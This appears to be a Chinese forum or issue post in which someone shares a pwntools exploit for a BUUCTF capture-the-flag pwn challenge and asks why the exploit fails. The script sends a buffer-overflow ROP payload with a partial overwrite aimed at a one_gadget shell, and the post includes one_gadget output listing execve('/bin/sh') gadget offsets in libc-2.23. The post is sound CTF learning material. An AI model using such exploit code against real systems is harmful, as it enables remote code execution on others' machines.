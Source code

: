 自己写的exp，只是换了一个gadgets并使之严格满足gadgets的条件，但是不知道出了什么问题，本地和远程都有问题。

```
from pwn import *

# context.arch = 'amd64'
# context.log_level = 'debug'
# context.terminal = ['deepin-terminal', '-x', 'sh' ,'-c']
offset = 0x18
while True:
    p = remote('node3.buuoj.cn', xxxxx)
    payload = 'a' * offset + p64(0x40059B)
    payload += 'b' * 8 * 5 + p64(0x40059B) + 'c' * 8 * 5 + p64(0x40059B)
    payload += 'c' * 8 + p64(0) + 'c' * 8 * 3 + '\xc8\x01' # p64(0)是为了使r12为0(NULL)
    p.sendline(payload)
    try:
        p.recv(timeout=1)
    except:
        p.close()
        continue
    else:
        p.interactive()
        break

"""
@ubuntu:~/Desktop/buuctf_Pwn$ one_gadget libc-2.23.so -l2
0x45216	execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a	execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xcd0f3	execve("/bin/sh", rcx, r12)
constraints:
  [rcx] == NULL || rcx == NULL
  [r12] == NULL || r12 == NULL

0xcd1c8	execve("/bin/sh", rax, r12)
constraints:
  [rax] == NULL || rax == NULL
  [r12] == NULL || r12 == NULL

0xf02a4	execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf02b0	execve("/bin/sh", rsi, [rax])
constraints:
  [rsi] == NULL || rsi == NULL
  [[rax]] == NULL || [rax] == NULL

0xf1147	execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL

0xf66f0	execve("/bin/sh", rcx, [rbp-0xf8])
constraints:
  [rcx] == NULL || rcx == NULL
  [[rbp-0xf8]] == NULL || [rbp-0xf8] == NULL

"""

```